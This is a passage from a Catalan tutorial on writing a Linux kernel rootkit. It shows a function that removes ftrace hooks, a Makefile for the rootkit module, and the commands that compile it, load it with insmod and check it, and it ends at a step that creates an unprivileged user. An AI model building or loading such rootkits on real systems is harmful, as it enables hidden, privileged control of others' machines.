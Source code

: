     * Desfem el procés anterior:

    ```c
    void fh_remove_hook(struct ftrace_hook *hook)
    {
        int err;
        err = unregister_ftrace_function(&hook->ops);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: unregister_ftrace_function() failed: %d\n", err);
        }

        err = ftrace_set_filter_ip(&hook->ops, hook->address, 1, 0);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        }
    }
    ```


5. Preparem un Makefile per compilar el nostre mòdul del kernel:

    ```makefile
    obj-m += rootkit.o

    all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

    clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
    ```

6. Compilem el nostre mòdul del kernel:

    ```sh
    make
    ```

7. Instal·lem el nostre mòdul del kernel:

    ```sh
    insmod rootkit.ko
    ```

8. Comprovem que el nostre mòdul s'ha instal·lat correctament:

    ```sh
    lsmod | grep rootkit
    ```

9. Comprovem que el nostre rootkit funciona correctament:

    ```sh
    dmesg | tail
    ```

10. Crearem un usuari al sistema sense privilegis d'administrador:
